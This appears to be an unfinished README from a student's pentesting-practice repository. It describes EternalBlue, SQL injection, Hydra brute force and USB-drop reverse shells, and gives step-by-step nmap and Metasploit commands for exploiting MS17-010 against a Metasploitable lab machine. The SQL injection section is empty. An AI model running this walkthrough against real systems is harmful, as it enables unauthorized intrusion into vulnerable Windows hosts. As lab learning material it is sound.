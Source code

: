 CAUTION: USING ANY OF THESE METHODS WITHOUT OWNERS CONSENT MAY/WILL RESULT IN PERSECUTION. ENSURE ALL PROPER PROCEDURES HAVE TAKEN PLACE BEFORE MOVING ON. 
[Under Construction]
___________________
The objective of this project was to familiarize myself with known vulnerabilities and
with said knowledge, be able to build counter measures/patch necessary apps & OS. 
___________________

 - Eternal Blue is one of my favorite vulns, it exposed how many devices could be easily infected with little to no effort by sending modified packets 
to the victim machine. Windows had a vulnerability within the OS server message block. This has crippled entire sectors of industrial sites when combined
into wannacry.

 - SQL Injection is a very common attack vector as many corporations/servers use SQL. 

 - Brute force ssh using hydra to show how basic ssh/telnet/ftp/sftp/mysql services can be brute forced when improperly configured or straight out vulnerable.

 - Reverse shells by "dropping USBs" (simulating a physical pentest)
   

HOW TO REPLICATE 
--
NOTE: I will be using metasploitable both win/linux to demonstrate most if not all vulns/exploits. Refer to Metasploit_install.md 


💙Eternal Blue💙
--

  Step 1: 
   Once your windows server and kali/parrot machine is spun up, ensure the two machines can communicate with each other by either using netdiscover or Nmap.
  ~~~
   sudo netdiscover -r ipaddress/prefix | OR | nmap -T4 -sV --version-all --osscan-guess -A -p 1-10000 ipaddress
  ~~~

  Step 2: 
  Use Nmap to confirm the windows server is vulnerable by using one of the NSE scripts that come with Nmap,

  ~~~
  nmap -p 139, 445 --script smb-vuln-ms17-010 ipaddress
  ~~~

  Step 3: 
 Once verified, within your attacking machine spin up msfconsole and search for the smb-ms17-010 exploit and configure it for your victim machine.

~~~
  msfconsole , use exploit/windows/smb/ms17_010_eternalblue , options , set rhost ipaddress , check , run 
~~~
Congrats you have used an exploit to gain unauthorized access!


 ✒️SQL Injection✒️ 
--
 
 
 Step 1:







[Under Construction]
